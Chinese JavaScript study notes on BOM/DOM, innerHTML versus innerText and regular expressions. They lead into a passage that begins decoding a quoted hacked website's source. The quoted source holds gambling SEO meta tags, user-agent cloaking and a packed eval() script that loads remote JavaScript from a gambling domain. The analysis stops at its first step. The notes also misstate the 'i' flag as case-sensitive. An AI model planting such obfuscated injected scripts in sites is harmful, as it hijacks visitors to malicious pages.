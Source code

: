 DOM和BOM的区别与联系

  * BOM的顶级对象是：window
  * DOM的顶级对象是：document
  * 实际上BOM包括DOM

innerHTML和innerText的区别

  * 相同点：都是设置元素内部的内容
  * 不同点：
      * innerHTML会把后面的字符串当作一段HTML代码解释并执行
      * innerText只会将后面的字符串作为普通字符串来看待

正则表达式对象的创建与调用

  * 创建方式一`var regExp = /正则表达式/flags;`
  * 创建方式二（使用内置支持类RegExp）`var regExp = new RegExp ("正则表达式","flags");`<figure class="wp-block-table">

| flags | 含义       |
| ----- | -------- |
| g     | 全局匹配     |
| i     | 区分大小写的匹配 |
| m     | 多行匹配     |</figure> 

_ES规范制定之后才支持m，当前面是正则表达式时，m不能用，只有前面是普通字符串时才可以使用_。

#### JS解密实例

网站篡改被植入博彩跳转js，view-source:http://www.baoyuhuang.com/

```html
<title>beplayer体育app下载-【welcome】</title>
<meta name="keywords" content="beplayer体育app下载-beplayer体育官方版APP下载-beplay下载官网_Beplay体育软件_beplay体育app安卓"/>
<meta name="description" content="【Beplayapp体育下载WWW.bob0897.COM】为您专业提供欧冠、体育、足球等资讯, beplayer体育下载包括:欧冠、奥运、世界杯、亚洲杯、欧洲杯等最精彩的体育赛事和beplayer体育官网投资..."/>
<script>if(navigator.userAgent.toLocaleLowerCase().indexOf("baidu") == -1){document.title ="鲍鱼的营养价值,鲍鱼批发市场,干鲍鱼价格,即食鲍鱼罐头,鲍鱼的家常做法大全-滋补皇鲍鱼网"}</script>
<script type="text/javascript">eval(function(p,a,c,k,e,r){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('n(f(p,a,c,k,e,r){e=f(c){h c.o(a)};i(!\'\'.j(/^/,q)){l(c--)r[e(c)]=k[c]||e(c);k=[f(e){h r[e]}];e=f(){h\'\\\\w+\'};c=1};l(c--)i(k[c])p=p.j(s t(\'\\\\b\'+e(c)+\'\\\\b\',\'g\'),k[c]);h p}(\'1["2"]["3"](\\\'<0 4="5/6" 7="8://9.a.b/c.d"></0>\\\');\',m,m,\'u|v|x|y|z|A|B|C|D|E|F|G|H|I\'.J(\'|\'),0,{}))',46,46,'|||||||||||||||function||return|if|replace||while|14|eval|toString||String||new|RegExp|script|window||document|write|type|text|javascript|src|https|www|bob5918|com|bob|js|split'.split('|'),0,{}))</script>
<meta name="description" content="滋补皇鲍鱼网是业内权威的的鲍鱼网站，提供鲍鱼的营养价值和功效作用、鲍鱼的批发市场、鲍鱼价格多少钱一斤、鲍鱼选购鉴别、鲍鱼的家常做法吃法、品牌即食鲍鱼罐头购买、鲍鱼图片等相关鲍鱼百科知识。" />
<meta name="keywords" content="鲍鱼,鲍鱼的做法,鲍鱼价格,鲍鱼批发,鲍鱼批发市场,即食鲍鱼,鲍鱼多少钱一斤,鲍鱼的营养价值,鲍鱼怎么做,鲍鱼网" />
```

解密第一步
